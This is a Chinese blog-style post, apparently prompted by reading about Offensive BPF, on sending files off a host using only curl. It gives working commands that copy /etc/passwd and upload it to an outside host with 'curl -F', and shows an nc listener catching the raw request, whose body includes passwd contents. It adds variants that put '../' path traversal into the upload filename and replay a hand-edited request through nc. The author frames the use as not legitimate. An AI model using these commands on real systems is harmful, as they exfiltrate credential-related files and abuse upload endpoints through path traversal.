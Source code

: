 阅读： 228

## ****一、背景介绍****

有时可能碰上用curl向外传送文件的需求，不考虑客户端有nc、perl或其他什么在场的情形，只有全功能curl在场，假设服务端可达、可控。这不是正经需求，我是正经人，所以一直没有碰上过，最近看Offensive BPF时有碰上，临时折腾一下。

☆ curl -F

1) “curl -F”所发数据在客户端执行

cd /tmp  
cp /etc/passwd /tmp/some.txt  
curl -F “file=@some.txt” -F “user=any” http://192.168.95.21:8080/upload

在服务端执行

nc -ln 192.168.95.21 8080 > raw.txt

raw.txt即”curl -F”发送出去的原始数据，如下

————————————————————————–  
POST /upload HTTP/1.1  
Host: 192.168.95.21:8080  
User-Agent: curl/7.81.0  
Accept: \*/\*  
Content-Length: 3132  
Content-Type: multipart/form-data; boundary=————————f3b2ed96520ef46e

————————–f3b2ed96520ef46e  
Content-Disposition: form-data; name=”file”; filename=”some.txt”  
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash  
…  
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin

————————–f3b2ed96520ef46e  
Content-Disposition: form-data; name=”user”

any  
————————–f3b2ed96520ef46e–  
————————————————————————–

网友「梦里的奇妙冒险」指出，如下命令可指定Content-Disposition中filename字段，使之包含../而不normalize它。

curl -F “file=@some.txt;filename=../../some.txt” -F “user=any” http://192.168.95.21:8080/upload

看man手册，还可指定Content-Type，而非自动识别(本例是text/plain)

curl -F “file=@some.txt;filename=../../some.txt;type=application/octet-stream” -F “user=any” http://192.168.95.21:8080/upload

起初我没去找curl指定filename字段的原生方案，当时用了个歪招，修改raw.txt中filename，同步修改Content-Length为3138，再用nc发送raw\_new.txt。

nc -n 192.168.95.21 8080 < raw\_new.txt

在Windows上修改raw\_new.txt，用记事本吧。顺便说一句，nc有个开关”-C”，使得发送CRLF，缺省发送LF。
